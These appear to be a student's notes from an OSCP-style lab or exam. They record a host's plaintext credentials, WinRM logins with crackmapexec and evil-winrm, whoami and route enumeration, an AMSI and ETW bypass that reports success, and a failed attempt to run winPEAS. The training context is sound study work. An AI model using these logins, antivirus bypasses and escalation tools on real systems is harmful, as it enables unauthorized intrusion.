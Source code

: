 # Info  

```
WinRM was possibly detected running on tcp port 5985.

192.168.114.206
domain: oscp.exam 
Username: r.andrews
Password: BusyOfficeWorker890


crackmapexec winrm 192.168.114.206 -d 'oscp.exam' -u 'r.andrews' -p 'BusyOfficeWorker890'

evil-winrm -u 'r.andrews' -p 'BusyOfficeWorker890' -i 192.168.114.206
```

![[{9B55F53D-AA74-45EA-B0B1-DE3501603A33}.png]]

route print
 
![[{9FDEC911-B21A-48CF-8B4C-8076E011DFEF}.png]]

whoanmi /priv
![[{D17E4A18-07E0-49ED-8246-07263978FC16}.png]]

whoami /all
![[{CA8A2C8F-835B-4705-BA62-3F24BE990064}.png]]


whoami /user
```
*Evil-WinRM* PS C:\Users\r.andrews\Documents> whoami /user

USER INFORMATION
----------------

User Name      SID
============== ==============================================
oscp\r.andrews S-1-5-21-2468442526-2906141135-4054829294-1105

```

get file from vm

![[{FB3A9F44-C6B9-48A8-A07B-9CE5747D6B48}.png]]

can do anything as user got no permission, script is disabled for this system, maybe winpeas might work

```

┌──(kali㉿kali)-[~/OSCP/Exam/AD/192.168.114.206]
└─$ evil-winrm -u 'r.andrews' -p 'BusyOfficeWorker890' -i 192.168.114.206 -e /home/kali/OSCP/Exam/AD/192.168.114.206  
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion  
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\r.andrews\Documents> Bypass-4MSI  
Warning: AV could be still watching for suspicious activity. Waiting for patching...  
Info: Patching 4MSI, please be patient...
[+] Success!   
Info: Patching ETW, please be patient ..    
[+] Success!
*Evil-WinRM* PS C:\Users\r.andrews\Documents> menu 
Info: Bypass-4MSI is loaded. Trying to load utilities


   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)  
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/

       By: CyberVaca, OscarAkaElvis, Jarilaos, Arale61 @Hackplayers

[+] Dll-Loader
[+] Donut-Loader
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit

*Evil-WinRM* PS C:\Users\r.andrews\Documents> Invoke-Binary /home/kali/OSCP/Exam/AD/192.168.114.206/winPEASx64.exe    
Error: Check filenames
*Evil-WinRM* PS C:\Users\r.andrews\Documents> 

```

cant run exe file 